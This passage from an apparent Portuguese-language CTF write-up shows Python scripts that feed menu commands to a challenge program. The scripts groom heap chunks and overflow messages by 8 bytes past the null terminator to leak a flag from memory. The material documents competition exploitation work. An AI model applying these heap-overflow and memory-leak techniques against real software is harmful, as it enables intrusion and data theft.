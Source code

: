 ```python

def remove_chunk(index):
    print("3\n"+str(index))
    global i_message
    i_message-=1
    sleep(SLEEP)

i_message = 0   #fim da lista de mensagens (primeiro fora da lista)

SLEEP = 0.1
NUM_BASE = 5
TAMANHO_BASE = 64
REMOVIDO = 3
TAMANHO_LEITOR = 64
NUM_LEITORES = 5
OVERFLOW=8
NUM_FLAGS = 5


#cria chunks com o fim de obter algo sequencial
for i in range(NUM_BASE):
    cria_chunk(TAMANHO_BASE)
#deleta um dos chunks com o fim de dar malloc dentro
remove_chunk(REMOVIDO)
#cria leitores de memoria
for i in range(NUM_LEITORES):
    invalid_message(TAMANHO_LEITOR)
#deleta mais um chunk para receber flag
remove_chunk(REMOVIDO)
#escreve flag na memoria
for i in range(NUM_FLAGS):
    print("5")

#imprime e sai
print("4\n6")
```

Percebemos (faltando 10 minutos para o fim do CTF) que aumentar a string de 8 em 8 bytes não quebra o programa e isso nos fornece mais uma estratégia, aumentar uma única mensagem várias vezes até atingir a flag. No final esse código funcionou:

```python
from time import sleep

#cria uma mensagem de tamanho size com o '\0' removido para vazar memoria
def invalid_message(size):
    cria_chunk(size)
    print("2\n" + str(i_message-1) + "\n" + str(size+OVERFLOW)+ "\n" + (size+OVERFLOW)*'b')

def cria_chunk(size):
    #aqui usa-se size-1 porque size conta com o '\0'
    print("1\nme\n"+ str(size) +"\n" + (size-1)*'a')
    global i_message
    i_message+=1
    #sleep(SLEEP)

def remove_chunk(index):
    print("3\n"+str(index))
    global i_message
    i_message-=1
    sleep(SLEEP)

i_message=0
SLEEP = 0.1
```